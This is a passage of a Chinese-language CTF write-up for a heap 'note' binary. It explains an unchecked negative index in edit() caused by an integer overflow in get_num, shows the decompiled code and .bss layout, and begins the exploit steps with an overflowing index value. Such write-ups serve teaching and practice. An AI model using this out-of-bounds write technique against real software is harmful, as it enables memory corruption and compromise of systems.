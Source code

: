 Show功能是无用的功能，edit和delete可以编辑和释放note。

### 漏洞

漏洞存在于edit功能中，这里面在获取用户输入的id号之后并没有进行验证。如果输入的id是负数的话依然可以执行。
在get_num函数中存在整数溢出漏洞，我们可以获得一个负数。

```
int edit()
{

  id = get_num();
  data_ptr = ptr[id];
  if ( data_ptr )
  {
    puts("Input the new content:");
    my_read(ptr[id], current_ptr[id + 8], '\n');
    current_ptr[0] = ptr[id];
    data_ptr = puts("Edit success");
  }
}
```

因此我们可以使得edit读入cuurent_ptr，使用的size是note7_ptr
```
.bss:
current_ptr <== edit ptr
note0_ptr
note1_ptr
note2_ptr
note3_ptr
note4_ptr
note5_ptr
note6_ptr
note7_ptr   <== size
note0_size
note1_size
note2_size
note3_size
note4_size
note5_size
note6_size
note7_size
```
首先创建8个note，然后edit note3使current_ptr指向note3，之后使用-1溢出note3
```
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')

edit(3,'a')
edit(-9223372036854775808,data);
```
